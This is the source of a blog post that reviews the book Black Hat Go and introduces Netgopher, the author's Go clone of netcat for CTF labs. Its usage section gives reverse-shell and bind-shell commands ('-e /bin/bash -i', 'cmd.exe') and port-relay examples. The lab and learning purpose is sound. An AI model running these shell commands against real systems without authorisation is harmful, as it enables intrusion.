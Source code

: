 ```yaml
---
defaults:
  # _posts
  - scope:
      path: ""
      type: posts
    values:
      layout: single
      author_profile: true
      read_time: true
      comments: false
      share: true
      related: true
title:  "Black Hat Go and Netgopher"
date:   2021-01-30 21:00:00 +0000
header:
  overlay_image: /assets/images/posts/netgopher/go.gif
  teaser: /assets/images/posts/netgopher/go.gif
  caption: A very excellent animated gopher courtesy of [egonelbre](https://github.com/egonelbre) - Check them out, they're very nice!
excerpt: "New tool who dis?"
categories:
  - Labs & Hacking
  - Programming
tags:
  - Lab
  - Go
feature_row1:
  - image_path: /assets/images/posts/netgopher/BHG.webp
    excerpt: "Black Hat Go is an excellent No Starch Press book covering the use of Golang for Pen Testing, bug bounty and other offensive security practices. It also has a pretty cool cover."
    url: https://nostarch.com/blackhatgo
    btn_label: "Check out The Book"
    btn_class: "btn--inverse"
---
```


# What's all this about?

This week, I dug out my dusty copy of Black Hat Go, a book I've been getting around to reading for an age. Long story short - I loved the first couple of chapters so much I thought I'd recommend it right off the bat. 

{% include feature_row id="feature_row1" type="left" %}

## How will this change my life?

If you're into your offensive security, using Go will add a really nice new skillset to your box 
of tricks. Go will let you build tools (simple or complex, up to you!) that compile to a single 
(fairly small) 'blob', with simple concurrency and thread management, excellent cross-compilation 
(No Wine!) and a compilation/testing command that's almost as simple as developing a Python script.  

I'd suggest that working with Go like this is probably going to be a bit easier if you are 
comfortable working with Bash or maybe a little bit of Python (even just being able to read 
these will be enough), but don't let that hold you back if you're keen.  
I've gone through the first chapter or two so far and in just a couple of 
evenings, the book has guided me through some really nice simple TCP tooling. 

Most of my exposure to compiled languages comes from solving awkward Mathematical problems at Univeristy, so learning Go was a little outfacing because I wanted to avoid that again, but Go is giving me serious Python vibes in the ease of drafting, testing and availability/usability of (mostly core) Libraries, I think I might be a convert! If you're worried about the learning curve, you could always get the basic syntax and conventions down via Codeacademy, Sololearn etc.

# Netgopher

Enter Netgopher. *What is that?* I hear you cry? Well to be honest, it's the same example Netcat mimic that every person starting on Black Hat Go or Black Hat Python (Another No Starch belter) puts on their Github! That said, I've tried to make my super simple implementation of Netcat a bit more useful for myself as I work CTFs and so on. 

In addition to the usual example TCP connection functionality, I've Googled it up and added some better command line parsing and options goodness, whilst most of the Netcat 'extra features' (hexdump, UDP etc.) are not included, you can do enough to get by on simple HackTheBox/TryHackMe/VulnHub boxes with TCP connections, command execution and built-in  port relaying (best bit IMHO). 

{% include figure
image_path="/assets/images/posts/netgopher/relay.gif"
alt="Example gif of Relay usage" caption="An example of a connection to connection relay. A Pair of listeners are started, then a connecting relay is set up, by starting two connections via Netgopher." %}

So if you're curious about Go, maybe you're thinking about it, why not grab this script and have a go? If I can do this in a couple of evenings, you definately can! Read the source and play with NetGopher as set out below and happy hacking! 

The rest of this post is actually a glorified excerpt from the README on the [Github Repo](https://github.com/blackfell/ng){:target="_blank"}. So feel free to check that out too if you know where you're going from here.

# Installation

You can **but probably shouldn't**  get Netgopher by running the following command once you have Go installed:

```
❯ go get -u "github.com/blackfell/ng"
```

## Why not? 

Well installing this way will only install ng in your local $GOPATH; additionally, the binary will be fairly large and compiled only for your OS. 

I wrote this little application with CTFs in mind, meaning I want a smaller binary, preferably with multi-platform support, so... **grab a copy of all the [released binaries](https://github.com/Blackfell/ng/releases/tag/v0.1) instead**, which have been cross compileed and stripped down to ~ 2MB. 

# Examples

## Basic Usage

```
❯ ng                                                                                                 ─╯
Usage of ng:
  -c value
        Make a TCP Connection : -c 127.0.0.1:8080
  -e string
        Execute a command (quote) : -e '/bin/bash -i'
  -h    Print detailed usage.
  -l value
        Listen on a port : -l 4444
  -v    Display detailed progress messages.
```

The simplest examples are the classic netcat connect and listen functions. You can try this out with a listener/connection pair:

![Listener & connect example image](/assets/images/posts/netgopher/basic.gif)
{% include figure
image_path="/assets/images/posts/netgopher/basic.gif"
alt="Example gif of listener and connection usage" caption="An example of listeners and connections.A listener is started, then a connection made from the same host." %}

## CTF Use Cases
Some really common use cases I have are:
### Start an interactive Bash shell and connect back to a remote listener:
```
# Start a listener on your remote machine
❯ ng -l 1234
# Start the shell
❯ ng -c remote_host:1234 -e '/bin/bash -i'
```
### Start a shell on a bind listener.
This is useful in certail cases because you can create as many conenctions as you like - if your shell drops, just re-connect.
```
❯ ng -l 1234 -e 'cmd.exe'
# Now connect up to the shell
❯ ng -c serving_host:1234
C:\Windowss\system32>
^C
# Oh no! Your shell dropped - try again:
❯ ng -c serving_host:1234
C:\Windowss\system32>

```
### Forward a TCP port back to a remote listener:
```
# Start a relay on your local host
❯ ng -l 1234 -l 445
# On your remote host, forward a connection to local port 445
❯ ng -c local_hostname:1234 -c 127.0.0.1:445
# Your local machine now has access to that remote port 445 on 127.0.0.1:445
```
### Port 'spoofing' - Forward incoming connections to local port:
```
# Listen on port 1234 and forward connections to ssh server
❯ ng -l 1234 -c 127.0.0.1:22
```
# That's it!

So there you have it - if this peaked your interest why not grab a copy of Netgopher and have a messaround, or read the source? If you have any thoughts, I welcome issues, pulls, emails, tweets and more, just hit one of the socials below. I hope I've insipired you to check out some Go, or even program a little in something - anything.

## Get your copy on sale

It's also worth noting that if you're into this, [Humble Bundle](https://www.humblebundle.com/) also host periodic super cheap sales of No Starch Press books- that's where I got my copy (in eBook form) and it might be a good idea to keep your eyes peeled for similar sales in future. Peace!
